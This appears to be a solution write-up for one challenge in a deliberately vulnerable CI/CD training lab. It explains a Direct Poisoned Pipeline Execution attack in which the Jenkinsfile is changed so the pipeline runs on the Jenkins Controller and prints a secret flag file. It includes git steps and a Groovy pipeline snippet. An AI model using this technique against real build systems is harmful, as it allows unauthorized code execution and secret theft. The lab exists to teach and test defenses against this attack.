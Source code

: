 [![CICD-SEC-4 Poisoned Pipeline Execution (PPE)](https://img.shields.io/badge/CICD--SEC--4-Poisoned%20Pipeline%20Execution%20(PPE)-brightgreen)](https://owasp.org/www-project-top-10-ci-cd-security-risks/CICD-SEC-04-Poisoned-Pipeline-Execution)

[![CICD-SEC-5 Insufficient PBAC (Pipeline-Based Access Controls)](https://img.shields.io/badge/CICD--SEC--5-Insufficient%20PBAC%20(Pipeline%20Based%20Access%20Controls)-brightgreen)](https://owasp.org/www-project-top-10-ci-cd-security-risks/CICD-SEC-05-Insufficient-PBAC)

Execute the _cheshire-cat_ pipeline on the Jenkins Controller by executing a [Direct-PPE](https://www.cidersecurity.io/blog/research/ppe-poisoned-pipeline-execution/?utm_source=github&utm_medium=github_page&utm_campaign=ci%2fcd%20goat_060422) attack, and get the secret which is stored in the Controller’s file system.


1. Clone the _Wonderland/cheshire-cat_ repository.
2. Checkout to a new branch.

    ```shell
    git checkout -b challenge5
    ```


3. In the Jenkinsfile, instruct the pipeline to run on the Controller by specifying its default label - `built-in`, and print _flag5_ to the console output (or send it to a remote server).

    ```groovy
    pipeline {
        agent {label 'built-in'}
        environment {
            PROJECT = "sanic"
        }

        stages {
            stage ('Install_Requirements') {
                steps {
                    sh 'cat ~/flag5.txt'
                }
            }
        }

        post { 
            always { 
                cleanWs()
            }
        }
    }
    ```


4. Push the changes to the remote branch, and create a pull request. A pipeline will be triggered automatically.
5. Access the console output of the executed job to get the secret.
![cheshire_cat](../images/cheshire_cat.png "cheshire_cat")
